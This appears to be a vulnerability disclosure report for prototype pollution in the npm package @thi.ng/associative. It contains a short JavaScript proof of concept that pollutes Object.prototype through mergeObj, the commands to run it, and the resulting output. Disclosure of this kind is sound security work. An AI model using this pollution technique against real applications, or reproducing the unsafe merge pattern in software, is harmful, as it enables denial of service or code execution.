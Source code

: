 # Description

`@thi.ng/associative` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { mergeObj } = require('@thi.ng/associative')

console.log(`Before: ${{}.polluted}`)
mergeObj({}.__proto__, {polluted: true})
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i @thi.ng/associative # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

